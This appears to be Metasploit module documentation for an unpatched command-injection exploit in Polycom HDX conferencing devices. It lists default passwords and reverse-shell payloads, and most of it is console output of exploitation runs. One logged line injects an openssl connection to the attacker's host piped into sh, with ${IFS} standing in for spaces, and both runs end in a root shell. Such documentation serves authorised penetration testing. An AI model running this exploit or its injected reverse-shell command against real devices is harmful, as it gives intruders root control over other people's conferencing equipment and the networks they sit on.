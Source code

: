 Within Polycom HDX series devices, there is a command execution vulneralbility in one of the dev commands `devcmds`, `lan traceroute` which subtituing `$()` or otherwise similar operand , similar to [polycom_hdx_auth_bypass](https://github.com/rapid7/metasploit-framework/blob/f250e15b6ee2d7b3e38ee1229bee533a021d1415/modules/exploits/unix/polycom_hdx_auth_bypass.rb) could allow for an attacker to obtain a command shell. Spaces must be replaced with `#{IFS}` aka `Internal Field Seperator`


## Vulnerable Application
Tested on the latest and greatest version of the firmware, vendor has not patched since being reported. [Found here](http://downloads.polycom.com/video/hdx/polycom-hdx-release-3.1.10-51067.pup)

## Options
### PASSWORD
Although a majority of devices come without a  password, occasionally when one is required, you can set one to either the default `456`, `admin`, or `POLYCOM`, or
the devices.


## Payloads
Supported payloads include the telnet payload `cmd/unix/reverse` but not `cmd/unix/reverse_ssl_double_telnet` Alternatively, `cmd/unix/reverse_openssl` can be used or, your own choice of executing any arbitrary command with `cmd/unix/generic`

```
Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Description
   ----                                ---------------  ----    -----------
   cmd/unix/generic                                     normal  Unix Command, Generic Command Execution
   cmd/unix/reverse                                     normal  Unix Command Shell, Double Reverse TCP (telnet)
   cmd/unix/reverse_openssl                             normal  Unix Command Shell, Double Reverse TCP SSL (openssl)
   cmd/unix/reverse_ssl_double_telnet                   normal  Unix Command Shell, Double Reverse TCP SSL (telnet)
```

## Verification Steps

A successful check of the exploit will look like this:
```
msf exploit(polycom) > set RHOST 192.168.0.17
RHOST => 192.168.0.17
msf exploit(polycom) > set LHOSt ens3
LHOSt => ens3
msf exploit(polycom) > set LPORT 3511
LPORT => 3511
msf exploit(polycom) > show payloads

Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Description
   ----                                ---------------  ----    -----------
   cmd/unix/generic                                     normal  Unix Command, Generic Command Execution
   cmd/unix/reverse                                     normal  Unix Command Shell, Double Reverse TCP (telnet)
   cmd/unix/reverse_openssl                             normal  Unix Command Shell, Double Reverse TCP SSL (openssl)
   cmd/unix/reverse_ssl_double_telnet                   normal  Unix Command Shell, Double Reverse TCP SSL (telnet)

msf exploit(polycom) > set PAYLOAD cmd/unix/reverse
PAYLOAD => cmd/unix/reverse
msf exploit(polycom) > set VERBOSE false
VERBOSE => false
msf exploit(polycom) > run

[*] Started reverse TCP double handler on 192.168.0.11:3511
[+] 192.168.0.17:23 - 192.168.0.17:23 - Device has no authentication, excellent!
[+] 192.168.0.17:23 - Sending payload of 126 bytes to 192.168.0.17:34874...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo vGopPRp0jBxt4J2D;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "vGopPRp0jBxt4J2D\n"
[*] Matching...
[*] A is input...
[*] Command shell session 10 opened (192.168.0.11:3511 -> 192.168.0.17:37687) at 2017-11-15 10:29:58 -0500
[*] 192.168.0.17:23 - Shutting down payload stager listener...

id
uid=0(root) gid=0(root)
whoami
root
```

## Debugging
Setting `VERBOSE` to true should yield an output of.

```
msf exploit(polycom) > set VERBOSE true
VERBOSE => true
rmsf exploit(polycom) > run

[*] Started reverse TCP double handler on 192.168.0.11:3511
[*] 192.168.0.17:23 - Received : !
Polycom Command Shell
XCOM host:    localhost port: 4121
TTY name:     /dev/pts/6
Session type: telnet
2017-11-15 15:33:12 DEBUG avc: pc[0]: XCOM:INFO:server_thread_handler: freeing conn [conn: 0x1266f300] [sock: 104] [thread: 0x12559e68]
2017-11-15 15:33:12 DEBUG jvm: pc[0]: UI: xcom-api: SessionHandler: freeing session 4340
2017-11-15 15:33:12 DEBUG jvm: pc[0]: UI: xcom-api: ClientManager: deleteSession(sess: 4340)
2017-11-15 15:33:12 DEBUG jvm: pc[0]: UI: xcom-api: ClientManager: deleteSession current open sessions count= 9
2017-11-15 15:33:12 DEBUG avc: pc[0]: XCOM:INFO:main_server_thread: new connection [conn: 0x1266f300] [sock: 104]
2017-11-15 15:33:12 DEBUG avc: pc[0]: XCOM:INFO:server_thread_handler: new conn [conn: 0x1266f300] [sock: 104] [thread: 0x1255a010] [TID: 3380]
2017-11-15 15:33:12 DEBUG avc: pc[0]: uimsg: [R: telnet /tmp/apiasynclisteners/psh6 /dev/pts/6]
2017-11-15 15:33:13 DEBUG jvm: pc[0]: UI: xcom-api: ClientManager: createSession(type: telnet sess: 4342)
2017-11-15 15:33:13 DEBUG jvm: pc[0]: UI: xcom-api: ClientManager: createSession current open sessions count= 10
2017-11-15 15:33:13 DEBUG avc: pc[0]: appcom: register_api_session pSession=0x12669918
2017-11-15 15:33:13 DEBUG avc: pc[0]: appcom: about to call sendJavaMessageEx
2017-11-15 15:33:13 DEBUG avc: pc[0]: appcom: session 4342 registered

[+] 192.168.0.17:23 - 192.168.0.17:23 - Device has no authentication, excellent!
[+] 192.168.0.17:23 - Sending payload of 126 bytes to 192.168.0.17:37450...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo WD3QloY3fys6n7dK;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] 192.168.0.17:23 - devcmds
Entering sticky internal commands *ONLY* mode...
lan traceroute `openssl${IFS}s_client${IFS}-quiet${IFS}-host${IFS}192.168.0.11${IFS}-port${IFS}37873|sh`
2017-11-15 15:33:13 DEBUG avc: pc[0]: uimsg: [D: lan traceroute `openssl${IFS}s_client${IFS}-quiet${IFS}-host${IFS}192.168.0.11${IFS}-port${IFS}37873|sh`]
2017-11-15 15:33:13 DEBUG avc: pc[0]: os: task:DETR pid:3369 thread 4e5ff4c0 11443 12660c68
2017-11-15 15:33:14 INFO avc: pc[0]: DevMgrEther: Trace Route Command Entry, hostnameORIP: `openssl${IFS}s_client${IFS}-quiet${IFS}-host${IFS}192.168.0.11${IFS}-port${IFS}37873|sh` hop_count: 0

[*] Reading from socket B
[*] B: "WD3QloY3fys6n7dK\n"
[*] Matching...
[*] A is input...
[*] Command shell session 11 opened (192.168.0.11:3511 -> 192.168.0.17:38624) at 2017-11-15 10:34:23 -0500
[*] 192.168.0.17:23 - Shutting down payload stager listener...

id
uid=0(root) gid=0(root)
whoami
root
```
